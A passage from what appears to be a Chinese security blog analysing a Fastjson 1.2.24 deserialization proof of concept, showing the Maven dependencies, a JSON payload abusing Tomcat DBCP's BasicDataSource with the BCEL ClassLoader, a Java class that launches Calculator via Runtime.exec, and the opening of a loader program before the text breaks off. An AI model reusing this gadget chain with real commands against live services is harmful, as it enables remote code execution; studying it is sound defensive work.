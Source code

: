 2、POC分析
-------

### 2.1、依赖

        <dependencies>
            <dependency>
                <groupId>com.alibaba</groupId>
                <artifactId>fastjson</artifactId>
                <version>1.2.24</version>
            </dependency>
            <!-- https://mvnrepository.com/artifact/org.apache.tomcat/tomcat-dbcp -->
            <dependency>
                <groupId>org.apache.tomcat</groupId>
                <artifactId>tomcat-dbcp</artifactId>
                <version>9.0.8</version>
            </dependency>
    
        </dependencies>
    

### 2.2、poc

    {
        {
            "x":{
                    "@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
                    "driverClassLoader": {
                        "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
                    },
                    "driverClassName": "$$BCEL$$$l$8b$I$A$..."
            }
        }: "x"
    }
    
    

编写恶意代码类，并且编译成class文件，既字节码形式

    package com.akkacloud;
    
    import java.io.IOException;
    
    public class Calc {
        public Calc() throws IOException {
            Runtime.getRuntime().exec(" open /System/Applications/Calculator.app ");
        }
    }
    
    

![image-20220420142233371](https://img2022.cnblogs.com/blog/2804790/202204/2804790-20220420155830382-151109797.png)

    package com.akkacloud;
    
    import com.alibaba.fastjson.JSON;
    import com.alibaba.fastjson.JSONObject;
    import com.sun.org.apache.bcel.internal.Repository;
    import com.sun.org.apache.bcel.internal.classfile.JavaClass;
    import com.sun.org.apache.bcel.internal.classfile.Utility;
    